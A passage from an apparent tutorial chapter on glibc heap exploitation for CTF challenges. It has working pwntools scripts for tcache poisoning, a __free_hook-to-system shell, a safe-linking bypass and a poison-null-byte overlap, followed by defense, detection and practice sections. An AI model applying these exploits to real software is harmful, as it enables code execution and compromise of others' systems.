free(2); free(3)               # tcache[0x40]: head -> 3 -> 2
edit(3, p64(free_hook))        # UAF write: 3.next = &__free_hook
add(4, 0x30)                   # returns chunk 3
add(5, 0x30, data=p64(system)) # returns &__free_hook; write system into it

# --- Step 3: trigger ---
add(6, 0x20, data=b'/bin/sh\x00')
free(6)                        # free("/bin/sh") -> __free_hook -> system("/bin/sh")
p.interactive()
```

Annotated run:

```
[+] libc base = 0x7f9c2ea00000
[*] tcache[0x40] poisoned: 3.next -> 0x7f9c2ebefe48 (__free_hook)
[*] wrote system (0x7f9c2ea50d70) into __free_hook
[*] Switching to interactive mode
$ id
uid=1000(kali) gid=1000(kali)
$ cat flag.txt
flag{tcache_poison_free_hook_system}
```

### 8.4 Making it work against the remote

Local success is half the job; remote reliability requires two disciplines. First, **match the libc exactly** — the `0x1ecbe0` unsorted-bin offset and `__free_hook`/`system` addresses are per-build. Pull the target's libc (often provided with the challenge, or fingerprinted via [libc.rip](https://libc.rip) from two leaked lower-3-nibble values) and load *that* file:

```python
libc = ELF('./libc-2.31-target.so.6')   # the REMOTE's libc, not your system's
p = remote('chal.example.com', 1337)     # swap process() -> remote()
```

Second, **verify each stage's leak looks sane before proceeding** — a remote desync (extra prompt, buffering) silently shifts your parse. Add asserts:

```python
assert 0x7f0000000000 < libc.address < 0x800000000000, "libc leak looks wrong"
assert libc.address & 0xfff == 0, "libc base not page-aligned"
```

If the leak is garbage, the usual culprits are: the guard chunk was too small (target consolidated into top), the `show()` read fewer bytes than the pointer, or the menu wrappers desynced. Reproduce locally with `context.log_level='debug'` to see the exact bytes on the wire, then diff against the remote. This local-then-remote discipline is what makes heap exploits reliable rather than flaky.

**Why it works:** step 1's unsorted-bin leak defeats ASLR (libc base). Step 2 poisons the singly-linked tcache list so the second `malloc` returns `&__free_hook` — the allocator *trusted the `next` pointer we controlled via the UAF*. Step 3 turns any `free` into `system` because glibc calls `__free_hook(ptr)` if it's non-NULL. On **glibc ≥ 2.32** you'd XOR-encode the `next` write (safe-linking, Part 4) using a leaked heap address; on **≥ 2.34** `__free_hook` is gone, so you'd instead poison to `_IO_2_1_stdout_`/an `_IO_FILE` vtable or a saved return address (Part 9).

---

## Part 9: Lab B — Newer glibc: UAF → Safe-Linking Bypass → `_IO_FILE`/Stack

Against glibc ≥ 2.34 the hooks are gone, so we adapt: leak libc *and* a heap address, safe-link-encode the poison, and aim the arbitrary write at a target that still yields control — here, a saved return address via `environ` (a classic stack-address leak from libc).

### 9.1 Leak a stack address via `environ`

libc exports `environ`, a pointer to the environment array **on the stack**. Reading `environ` (arbitrary read via a poisoned alloc or `%s`) gives a live stack address, from which you compute a saved return address — RELRO-proof, hook-independent.

```python
# after leaking libc base as in Lab A:
environ = libc.symbols['environ']    # &environ in libc; *environ = a stack address
# use a tcache-poison arbitrary READ to fetch *environ:
```

### 9.2 Safe-linking-aware poisoning (glibc ≥ 2.32)

```python
def enc(pos, ptr): return (pos >> 12) ^ ptr

# We need a heap address to compute the mask. The tcache 'key' field IS a heap pointer:
heap_leak = u64(show(freed_idx)[8:16].ljust(8, b'\x00'))   # key -> heap base
log.success('heap = %#x', heap_leak)

# poison: make freed chunk B's next point at &environ, safe-link encoded
add(2, 0x30); add(3, 0x30)
free(2); free(3)                          # tcache[0x40]: 3 -> 2
addr_of_3 = heap_leak + 0x2a0             # measured offset of chunk 3
edit(3, p64(enc(addr_of_3, environ)))     # SAFE-LINK encoded next
add(4, 0x30)                              # -> chunk 3
stack_ptr_slot = add(5, 0x30)             # -> &environ; read it back = a stack address
stack_leak = u64(show(5)[:8].ljust(8,b'\x00'))
saved_rip = stack_leak - 0x140            # measured: main's saved return address
```

### 9.3 Write a ROP chain / one_gadget over the saved return address

With an arbitrary-write primitive (a second poison aimed at `saved_rip`) you stamp a `one_gadget` or a short ROP chain (`pop rdi; /bin/sh; system`) onto the stack, then let the function return.

```python
og = libc.address + 0xe3b01
# poison again to return &saved_rip as a chunk, then write:
# ... (second tcache poison to saved_rip) ...
edit(win_chunk, p64(og))     # overwrite saved RIP with one_gadget
# trigger return -> shell
p.interactive()
```

```mermaid
flowchart TD
    A[UAF on glibc>=2.34] --> B[Unsorted-bin leak -> libc base]
    B --> C[Read tcache key -> heap base]
    C --> D[Safe-link encode next = enc(chunk,&environ)]
    D --> E[Arb READ *environ -> stack address]
    E --> F[Compute saved RIP]
    F --> G[2nd poison -> arb WRITE one_gadget over saved RIP]
    G --> H[return -> shell]
```

**The transferable lesson:** newer glibc removed the *easy* target (`__free_hook`) but not the *primitive* (arbitrary alloc via poisoning). You just redirect the same primitive at a hook-independent target — a stack return address (via `environ`), an `_IO_FILE` vtable (FSOP), or the exit-handler chain. Safe-linking adds one XOR step, defeated by a heap leak you already have.

---

## Part 9b: Off-by-One and Overlapping Chunks (Poison Null Byte)

The off-by-one deserves its own worked treatment because it produces the single most powerful heap primitive: **overlapping chunks**, where two live allocations occupy the same memory so writing one corrupts the other's metadata *while both are in use*.

The bug is usually a NUL terminator written one byte past a buffer — e.g. `read(fd, buf, size); buf[size] = 0;` or a `strcpy` whose source is exactly `size` bytes. That NUL lands on the low byte of the **next chunk's `size` field**, which also holds `PREV_INUSE`. Clearing that byte (or shrinking the size) sets up a fake `prev_size` so that `free` consolidates *backward* over a chunk you still control.

The "House of Einherjar" / poison-null-byte sequence, conceptually:



Worked skeleton (glibc where the check is lax; modern glibc added `corrupted size vs. prev_size`):

```python
a = alloc(0xf8)     # chunk A, size 0x100
b = alloc(0xf8)     # chunk B
c = alloc(0xf8)     # chunk C (guard vs top)
# off-by-one: write 0xf8 bytes of data + a single NUL that lands on B.size low byte
edit(a, b'A'*0xf0 + p64(0x100)  # forge prev_size for B = 0x100 (points back over A)
        + b'\x00')              # the poison null clears B.size's PREV_INUSE
free(a)                          # A into a bin
free(b)                          # B consolidates BACKWARD over A -> big free chunk over A
d = alloc(0x208)                 # reclaim the merged region -> d overlaps the old A/B
# now editing d rewrites A's header and B's fd/bk while they're "live" -> poison at will
```

The result is a **chunk overlap**: `d` and `a` share bytes. From here you overwrite a live chunk's `size` to mis-bin it, or overwrite a freed neighbour's `fd` to poison a bin — reaching the same arbitrary-alloc primitive as tcache poisoning but starting from only a *one-byte* overflow. Modern glibc's `corrupted size vs. prev_size` check (comparing the forged `prev_size` against the actual consolidated size) blocks the naive version, so contemporary variants (House of Einherjar with a heap leak, or tcache-based overlaps) forge a matching `prev_size` — again requiring a heap-address leak.

**Why this matters:** a single stray NUL — the most common and easily-overlooked overflow — is a full compromise, not a cosmetic bug. When reviewing C, `buf[len] = 0` where `len` can equal the buffer size is a red flag equal to any larger overflow.

---

## Part 10: `_IO_FILE` / FSOP — the Post-Hook Endgame (Overview)

When there is no writable hook and no convenient stack leak, the modern go-to is **File Stream-Oriented Programming (FSOP)**: corrupt a `struct _IO_FILE` (e.g. `stdout`/`stderr`) so that the next buffered I/O operation follows an attacker-controlled **vtable** to attacker code. The allocator delivers you a pointer to (or overlapping) an `_IO_FILE`, you overwrite its vtable pointer to a fake vtable (or use the `_IO_wfile_jumps` / `system`-via-`_IO_str_overflow` tricks), and the next `puts`/`printf`/`exit` flush calls your target.

This is deep enough to be its own chapter, but recognise the shape: **any arbitrary write + a libc leak can become code execution through `stdout`'s vtable even under Full RELRO and hook removal.** The `house-of-*` techniques (House of Orange, House of Apple, House of Botcake, House of Force on old glibc) are named recipes that reach this state from different starting bugs — map yours to a how2heap file and follow it.

| Endgame target | glibc availability | Trigger |
|---|---|---|
| `__free_hook`/`__malloc_hook` | < 2.34 | next `free`/`malloc` |
| Saved return address (via `environ`) | any (needs stack leak) | function return |
| `_IO_FILE` vtable / FSOP (House of Apple etc.) | any (esp. ≥ 2.34) | next buffered I/O / `exit` |
| `__exit_funcs` / `tls_dtor_list` | any (PTR_MANGLE-aware) | `exit()` |

### The named "House of" techniques, mapped

CTF and research writeups refer to heap techniques by evocative "House of" names. They are not distinct magic — each is a recipe that reaches "arbitrary alloc" or "arbitrary write" from a particular starting bug and glibc era. Knowing the map lets you pick the right how2heap file:

| Name | Starting primitive | What it achieves | glibc era |
|---|---|---|---|
| House of Spirit | control a fake chunk + a free of it | free a fake chunk → alloc arbitrary address | any (needs fake size) |
| House of Force | overflow the **top chunk** size to huge | next big malloc returns arbitrary address | ≤ 2.28 (top-size check added) |
| House of Einherjar | off-by-one NUL + heap leak | backward consolidation → overlap | any (with prev_size forge) |
| House of Orange | overflow top + no free primitive | top→unsorted→FSOP to code exec | ≤ 2.23 classic; adapted later |
| House of Botcake | double-free via tcache+unsorted | overlapping chunks bypassing key | 2.29–2.31 |
| House of Apple (2) | `_IO_FILE` + one arbitrary write | FSOP code exec, hook-free | ≥ 2.34 (modern go-to) |
| Large-bin attack | free large chunks + overflow `bk_nextsize` | write a heap pointer to a chosen address | any (with leak) |

The through-line: **older houses abused missing checks (top size, unsorted `bk`); modern houses (Apple, Botcake) accept that hooks and easy checks are gone and route through `_IO_FILE` structures instead.** When you name your primitive (Part 12 step 2) and your glibc (step 3), this table points you at the right recipe.


---

## Part 11: Consolidation, the Top Chunk, and Why Guards Matter

Two allocator behaviours trip up beginners and must be managed deliberately.

**The top chunk (`wilderness`)** is the single big free chunk at the end of the heap from which new allocations are carved. If you `free` a chunk that is *adjacent to the top chunk*, glibc **merges it into top** instead of putting it in a bin — so your intended unsorted-bin leak silently fails. The fix (seen in Lab A) is to allocate a small **guard chunk** between your target and the top before freeing, so the target isn't top-adjacent.

**Consolidation** merges physically adjacent free chunks to fight fragmentation. When a non-fastbin chunk is freed, glibc checks the `PREV_INUSE` flag of neighbours and, if a neighbour is free, **unlinks** it and merges. This is exactly what off-by-one/poison-null-byte attacks abuse: clear a `PREV_INUSE` bit and forge `prev_size` so `free` consolidates *backward over a chunk you still hold*, yielding overlapping chunks. `malloc_consolidate()` also flushes fastbins into the unsorted bin on larger requests — which can move your carefully-placed fastbin chunk unexpectedly.

```mermaid
flowchart LR
    A[free(chunk)] --> B{fastbin size?}
    B -->|yes| C[goes to fastbin, NO consolidation]
    B -->|no| D{neighbour free? PREV_INUSE=0}
    D -->|yes| E[unlink neighbour + merge]
    D -->|no| F{adjacent to top?}
    F -->|yes| G[merge into TOP -> no bin! use a guard]
    F -->|no| H[place in unsorted bin]
```

Understanding these is the difference between "my leak works" and "my chunk vanished into top". Always draw the heap (`vis_heap_chunks`) before and after each `free`.

---

## Part 12: A Repeatable Heap-Exploitation Methodology

Turn the chapter into a procedure:

1. **Map the interface.** Identify alloc/free/edit/view primitives and their size limits. Note whether freed pointers are nulled (if not → UAF).
2. **Identify the bug.** Overflow? UAF? Double-free? Off-by-one? This picks your primitive.
3. **Identify glibc version** (`./libc.so.6`) → know tcache checks, safe-linking, hook availability.
4. **Get a libc leak** (unsorted-bin `fd`/`bk` via a UAF read or overlap) → defeat ASLR.
5. **Get a heap leak** if glibc ≥ 2.32 (tcache `key`, or a heap `fd`) → for safe-linking.
6. **Choose a write target:** `__free_hook`/`__malloc_hook` (<2.34), saved RIP via `environ`, or `_IO_FILE`/FSOP (≥2.34, Full RELRO).
7. **Poison the bin** to make `malloc` return your target (safe-link-encode `next` if ≥2.32; clear `key` if double-free path).
8. **Write** `system`/one_gadget/vtable to the target.
9. **Trigger** (free a `/bin/sh` chunk, return, or flush stdout).
10. **Verify in a debugger** at each step with `vis_heap_chunks`/`bins` before trusting the remote.

**Bug-bounty / CTF relevance:** heap bugs dominate modern **CTF pwn** (glibc heap notes challenges) and are the highest-severity class in real software — browser and kernel exploitation are overwhelmingly heap UAF/overflow. Chrome/Firefox/Windows kernel RCEs are typically UAFs shaped exactly like Part 5.2. Demonstrating a UAF as a controllable arbitrary write (not a crash) is what separates a P1 from an "unexploitable" triage dismissal.

---

## Part 12b: Bug → Technique → Target Lookup

When you sit down with a new heap target, this table collapses the whole chapter into a single decision:

| You have… | On this glibc… | Do this technique | Aiming at… |
|---|---|---|---|
| UAF read + big free | any | unsorted-bin leak | libc base (defeat ASLR) |
| UAF write | 2.26–2.31 | tcache poison → alloc `__free_hook` | `system` |
| UAF write | ≥ 2.32 | leak heap (`key`) → safe-link poison | `environ`→saved RIP, or `_IO_FILE` |
| Double-free | 2.26–2.28 | tcache dup | arbitrary alloc |
| Double-free | 2.29–2.31 | clear `key` → tcache dup / Botcake | overlap → poison |
| One-byte NUL overflow | ≤ 2.28 | poison-null / Einherjar | chunk overlap |
| One-byte NUL + heap leak | ≥ 2.29 | Einherjar w/ forged `prev_size` | chunk overlap |
| Overflow into top size | ≤ 2.28 | House of Force | arbitrary alloc |
| Any arb write + libc leak | ≥ 2.34 | House of Apple (FSOP) | `_IO_FILE` vtable → code exec |

Read left-to-right: the bug you found and the glibc version *determine* the technique; you don't choose freely. This is why steps 2 and 3 of the methodology (identify bug, identify glibc) come before everything else, and why "what glibc is this?" is the first question a heap exploiter asks about any target.

---

## Part 13: Detection & Defense Angle

The heap is where allocator hardening and runtime detection do the most work.

**Allocator hardening already shipped** (know what your exploit must survive): the tcache **`key`** (double-free detection, 2.29), **safe-linking** (pointer obfuscation, 2.32), **removal of `__malloc_hook`/`__free_hook`/`__realloc_hook`** (2.34), and assorted **size/alignment sanity checks** in `_int_free`/`_int_malloc` (`corrupted size vs. prev_size`, `invalid next size`, `free(): double free detected in tcache 2`, `malloc(): unaligned tcache chunk detected`). Each abort string is both a hurdle for the attacker and a **high-fidelity detection signal** for the defender — a real workload never emits `malloc(): memory corruption`.

**Build- and deploy-time defences:**

- **Harden the allocator / use a hardened one.** glibc's `GLIBC_TUNABLES=glibc.malloc.check=3` and `MALLOC_CHECK_=3` add extra consistency checks (dev/triage). For production, allocators like **hardened_malloc** (GrapheneOS), **Scudo** (LLVM, used on Android), and **PartitionAlloc** (Chrome) add guard pages, randomised freelists, size-class isolation, and double-free/quarantine detection that break most of this chapter's techniques.
- **Compile with `-D_FORTIFY_SOURCE=3`** — bounds-checks many buffer operations that cause heap overflows.
- **Sanitizers in CI:** **ASan** (AddressSanitizer) and its production-oriented cousin **GWP-ASan** catch heap-buffer-overflow, use-after-free, and double-free at the moment they happen, with allocation/free stacks — the single most effective way to *find and fix* these bugs before ship. **MemorySanitizer** catches uninitialised reads (heap leaks).
- **Hardware:** **MTE** (ARM Memory Tagging Extension) tags allocations and pointers so a UAF/overflow that touches a mismatched tag faults — a near-comprehensive mitigation for the UAF/overflow classes on supported hardware.

**The glibc abort strings — a detection cheat sheet.** Each corruption check emits a distinctive message; recognising them speeds both exploitation (which invariant you broke) and detection (what an attacker tripped):

| Abort message | Which check | Attacker mistake / signal |
|---|---|---|
| `free(): double free detected in tcache 2` | tcache `key` guard | double-free without clearing `key` |
| `malloc(): unaligned tcache chunk detected` | tcache alignment | poisoned `next` not 16-aligned |
| `malloc(): memory corruption (fast)` | fastbin size check | poisoned fastbin `fd` → bad size |
| `free(): invalid pointer` | alignment/range | freeing a non-chunk pointer |
| `corrupted size vs. prev_size` | consolidation sanity | off-by-one/Einherjar without matching `prev_size` |
| `malloc(): corrupted top size` | top-chunk check | House of Force-style top overflow |
| `free(): corrupted unsorted chunks` | unsorted `fd`/`bk` check | unsorted-bin attack with bad links |

A production service emitting *any* of these is either badly buggy or under active heap exploitation — they belong on a high-priority alert.

**Detection at runtime.** **Blue-team usage:** alert on glibc heap-abort strings (`double free or corruption`, `malloc(): ... detected`, `free(): ...`) in service logs and cores — they are almost always either a serious bug or active exploitation. **IR use case:** a core dump whose backtrace terminates in `__libc_message`/`malloc_printerr` with a corruption string, plus a heap groomed into repeating same-size allocations, is the fingerprint of heap-exploitation attempts. **Red-team usage:** conversely, when your own exploit trips one of these checks, the abort string tells you *exactly* which invariant you violated (size mismatch, unaligned, double-free) — read it and fix that step. Pair with `seccomp` `execve` denial so even a successful `__free_hook → system` yields a logged, blocked exec rather than a shell.

---

## Part 14: Common Pitfalls

- **Chunk merged into top instead of the bin.** Forgot a guard chunk; your unsorted-bin leak returns garbage. Always isolate the target from the top chunk before freeing.
- **Wrong libc/main_arena offset.** The unsorted leak subtrahend is version-specific; measure `&main_arena` under ASLR-off and assert page alignment on the computed base.
- **Ignoring safe-linking (≥2.32).** Writing a raw target into `next` on modern glibc yields a wild pointer and a crash; you must XOR with `(chunk_addr >> 12)`, which requires a heap leak first.
- **Tripping the tcache `key` guard.** Re-freeing a chunk with its `key` intact aborts with "double free detected in tcache 2"; overwrite `key` before the second free.
- **Off-by-one size confusion.** `malloc(0x18)` lives in a `0x20` chunk; the `size` field shows `0x21` (P bit). Strip the low 3 bits before reasoning about sizes.
- **tcache full surprises.** Only 7 chunks per size in tcache; the 8th free goes to fastbin/unsorted and behaves differently. Count your frees.
- **Editing the wrong index after a poison.** After two allocs from a poisoned list, track which index is the real chunk vs the target alloc; mixing them corrupts your own state.
- **Assuming hooks exist.** On glibc ≥ 2.34 `__free_hook`/`__malloc_hook` are gone — targeting them writes to unmapped/irrelevant memory. Check the version first.
- **Not drawing the heap.** Nearly every heap bug is a layout misunderstanding; `vis_heap_chunks` before/after each operation prevents hours of confusion.
- **Data written with a trailing newline.** Using `sendline` for chunk data appends `\n`, corrupting the byte after your payload — often the low byte of the next chunk's metadata. Use `send`/`sendafter` for chunk contents.
- **Off-by-one in tcache count.** The tcache holds exactly 7; if you free an 8th of the same size expecting tcache behaviour, it goes to fastbin/unsorted and your poison targets the wrong list.
- **Forgetting requests round up.** `malloc(0x48)` yields a `0x50` chunk (0x48 data + 8 header, rounded to 16-align). Poison and size math must use the *chunk* size, not the requested size.
- **Stale local pointers after realloc paths.** If the program uses `realloc`, a chunk can move; a cached pointer becomes a UAF you didn't intend — track every allocation's lifecycle.

One closing discipline ties them all together: **exploit the heap one verified step at a time.** After every allocator operation, confirm the bin state (`bins`) and the chunk layout (`vis_heap_chunks`) match your mental model before issuing the next. Heap exploits fail silently — a chunk in the wrong bin produces a wild pointer three steps later — so the debugger, not the script, is where you build confidence.

---

## Part 15: Final Revision / Summary

- The heap stores **metadata inline** next to user data; corrupting it makes `malloc` return an attacker-chosen pointer → arbitrary write → code exec.
- **Chunk:** `[prev_size][size|flags][user data]`; `malloc` returns `chunk+0x10`; `size` low 3 bits are `PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA`.
- **Bins:** tcache (≤0x408, 7/size, LIFO, singly-linked — the modern target), fastbins (≤0x80), unsorted (libc-leak source), small/large. Freed chunks store `fd`/`bk`/`key` *in the user area*.
- **libc leak:** free a chunk too big for tcache → unsorted bin → its `fd`/`bk` point into `main_arena` → read them → libc base.
- **tcache poisoning:** corrupt a freed chunk's `next` to a target; two `malloc`s return the target. **Safe-linking (≥2.32)** requires XOR-encoding with a **heap leak**; the **`key`** guards double-free (≥2.29).
- **Bugs → primitives:** overflow (adjacent metadata), UAF (leak + poison), double-free (duplicate chunk), off-by-one NUL (overlap via consolidation).
- **Targets:** `__free_hook`/`__malloc_hook` (<2.34), saved RIP via `environ`, `_IO_FILE`/FSOP (≥2.34).
- **Method:** map interface → find bug → id glibc → libc leak → heap leak → poison → write target → trigger → verify with `vis_heap_chunks`.

Memory hook: **"Free writes pointers into your data; read them to leak, overwrite them to redirect, and `malloc` will hand you anywhere."**

And the strategic one-liner for the whole chapter: **the allocator trusts its own metadata — so whoever controls the metadata controls the allocator.**

---

## Part 16: Cheat Sheet / Quick Reference

```text
CHUNK
  [prev_size][size(low3=A|M|P)][ user data / when free: fd,bk,key ]
  chunk = user_ptr - 0x10 ; sizes 16-aligned ; strip low 3 bits

BINS (x86-64)
  tcache  <=0x408  7/size  LIFO  singly(fd)   <- modern target, safe-linking>=2.32
  fastbin <=0x80          LIFO  singly(fd)
  unsorted any     FIFO   doubly(fd,bk)        <- libc leak (fd->main_arena)
  small/large  sorted     doubly

LIBC LEAK
  a=malloc(0x420); b=malloc(0x20)#guard; free(a); leak=read(a)[:8]
  libc.address = leak - offset(main_arena bin)   (assert &0xfff==0)

TCACHE POISON
  free(A);free(B); edit(B, next=&target); malloc();malloc()-> &target
  >=2.32 safe-link: next = (chunk_addr>>12) ^ target   (need heap leak)
  >=2.29 key: clear/overwrite key before double-free

TARGETS
  __free_hook/__malloc_hook  (<2.34) -> system / one_gadget
  environ (libc) -> stack addr -> saved RIP -> one_gadget/ROP
  _IO_FILE vtable / FSOP (House of Apple)  -> any glibc, Full RELRO

PWNDBG
  vis_heap_chunks ; heap ; bins ; tcache ; malloc_chunk <a> ; p main_arena
```

---

## Part 17: Practice Labs & Resources

- **shellphish `how2heap`:** the definitive corpus — build and step through `tcache_poisoning`, `unsorted_bin_attack`, `fastbin_dup`, `house_of_*` for *your* glibc version. Start here.
- **pwn.college — "Heap" / "Dynamic Allocator Misuse" modules:** structured levels from chunk basics to tcache poisoning and safe-linking bypass with an integrated debugger — the best guided practice for this chapter.
- **guyinatuxedo "Nightmare" heap chapters:** thorough walkthroughs of real CTF heap challenges (UAF, double-free, unsorted-bin leak) with full scripts — closest to how you'll actually build exploits.
- **HackTheBox / picoCTF heap pwn (e.g. *heap notes* style, `Are you root?`):** menu-driven alloc/free/edit/view services with a UAF — reproduce Labs A and B against them.
- **PortSwigger is web-only — for heap, use pwnable.kr / pwnable.tw (`tcache_tear`, `applestore`, `heap paradise`):** excellent, graded heap challenges spanning old and modern glibc.
- **glibc source (`malloc/malloc.c`):** read `_int_malloc`, `_int_free`, `tcache_get/put`, and the `malloc_printerr` checks — the ground truth for every technique and every abort string.
- **`pwndbg`/`GEF`/`libheap` heap plugins:** beyond `vis_heap_chunks`, learn `find_fake_fast`, `tcachebins`, and `try_free <addr>` (simulates what a `free` would do) — invaluable for predicting whether a forged chunk passes glibc's checks before you send it.
- **ptmalloc internals writeups (sploitfun, Azeria, ir0nstone binary-exploitation notes):** clear, diagram-led explanations of chunk/bin mechanics to complement the glibc source when `malloc.c` is dense.
- **Build-your-own:** compile the Lab A `note.c` and link it against glibc 2.27, 2.31, 2.35 in turn; watch the exploit need the `key` bypass, then safe-linking, then hook removal — the fastest way to feel the version treadmill.

Practice question set:

1. A `malloc(0x28)` chunk shows a `size` field of `0x31`. What is the real chunk size, and what does the low nibble tell you about the previous chunk?
2. You free a `0x420` chunk and immediately read its first 8 bytes via a UAF, getting `0x7f4a1cebe0`. Explain what this value is and how to compute the libc base from it.
3. On glibc 2.35, you try to make a freed tcache chunk's `next` point at `__free_hook` by writing the raw address, and it crashes. Why, and what must you compute instead — and what leak do you need first?
4. `__free_hook` is absent (glibc 2.36). Describe two alternative write targets that still give code execution and how each is triggered.
5. Explain why allocating a "guard" chunk before freeing your leak chunk is necessary, in terms of the top chunk and consolidation.
6. You have only a one-byte NUL overflow into the next chunk's `size`. Walk through how this becomes a chunk overlap, and name one glibc check that the naive version must now defeat.
7. A target is multi-threaded and your unsorted-bin leak returns an address that is *not* in libc's range. What likely happened, and how does it change your leak strategy?

**Memory hooks (mnemonics):**

- **"`malloc` returns chunk+0x10; the size's low three bits are A-M-P."** — chunk layout.
- **"tcache is seven deep, LIFO, and singly-linked — poison the `next`."** — the modern primitive.
- **"Free something big, read its `fd`, subtract the offset — that's libc."** — the unsorted leak.
- **"Safe-linking is just XOR with the page; a heap leak undoes it."** — the 2.32 speed bump.
- **"When in doubt, `vis_heap_chunks`."** — the debugging reflex.

**A note on real-world impact (woven, not boxed):** the overwhelming majority of high-severity RCEs in browsers, kernels, and language runtimes are heap bugs of exactly the shapes in Part 5 — a use-after-free on a JavaScript object, a heap overflow in an image parser, a double-free in a protocol stack. The glibc-specific mechanics here (tcache, safe-linking) transfer directly to those targets in spirit: find the object lifecycle bug, groom the allocator to place a controlled object where the freed one was, and turn the stale pointer into a write. That grooming intuition — control what gets allocated where — is the single most valuable skill this chapter builds, and it is allocator-agnostic.

The next chapter shifts from *reusing* existing code to *supplying your own* — **shellcoding**: writing compact, NUL-free, position-independent machine code that spawns a shell, and the position-independent payload techniques that make it land reliably once a bug (stack, format string, or heap) has handed you the instruction pointer.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/vuln-research-binexp/06-heap-exploitation-fundamentals), with comments and the latest edits.*
